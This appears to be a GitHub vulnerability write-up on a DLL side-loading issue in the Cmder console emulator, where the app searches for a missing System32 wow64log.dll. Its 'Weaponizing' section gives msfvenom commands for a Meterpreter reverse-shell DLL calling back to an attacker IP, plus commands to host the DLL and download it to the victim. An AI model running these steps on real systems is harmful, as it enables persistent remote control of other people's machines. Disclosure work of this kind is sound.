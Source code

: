 # Cmder DLL Side-Loading v1.3.25 (Full and Mini Versions)
According to https://cmder.app/ it is:
````
Cmder is a software package created out of pure frustration over the absence of nice
console emulators on Windows. It is based on amazing software, and spiced up with
the Monokai color scheme and a custom prompt layout, looking sexy from the start.
````
- I couldnt agree more, it is a great application and I use it on all my Windows systems.
- This repo details an issue in the Cmder application (Full and Mini Versions) in which a DLL is seached for and not found allowing an attacker the ability to get code execution

## Application Link
- https://cmder.app/
- https://github.com/cmderdev/cmder

## Overview
- In Sysinternals ProcessMonitor we can set three basic filters seen below
````
Process Name is Cmder.exe
Path Ends With .dll
Result is NAME NOT FOUND
````
![image](https://github.com/user-attachments/assets/57aa37ee-1d6a-4ef8-b19f-6aeee77faf46)
- The cmder application (Full version and Mini Version) both search for a dll located under `C:\Windows\System32\wow64log.dll`, however it cannot be found and is not included with Windows.
![image](https://github.com/user-attachments/assets/cc8ae186-ba31-47c4-8f33-2e1b48d3761d)

## Weaponizing
- We can generate a simple msfvenom DLL and place it under `C:\Windows\System32`, naming it `wow64log.dll`
````
# Generate the malicious DLL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.15.130 LPORT=4444 -f dll -o wow64log.dll
# Host the payload
python3 -m http.server
# Transfer the payload to the victim system
cd C:\Windows\System32
iwr http://kali.space:8000/wow64log.dll -o wow64log.dll
````
![image](https://github.com/user-attachments/assets/ef851afc-fae9-43a6-bc10-1c52aa2e3a4a)
- Upon opening the application we will recieve a call back.
- From testing your Meterpreter shell will drop you into `C:\Windows` and your pid will be associated to `rundll32.exe`. Your PPID will no longer be running on the system.
## Privilege Escalation
- From testing if the Cmder application is run without Administrator permissions you will recieve a shell in the context of your user account.
- If the Cmder application is run WITH Administrator permissions you will recieve a shell in the context of the Admin privileged account.
![image](https://github.com/user-attachments/assets/df922eee-615b-40a2-858f-1e9a1eaed4fd)
![image](https://github.com/user-attachments/assets/a1d8e088-1b7c-4613-a1d3-9695238a939a)

## Notes
- It should be noted that an attacker would require Administrator permissions in order to take advantage of this vulnerability. This is due to the missing DLL being located under `System32`. While this technique does not allow an attacker to priviledge escalate it does provide a potential persistance mechanism. This DLL Side Loading issue allows an attacker to gain code execution anytime the application Cmder is opened.
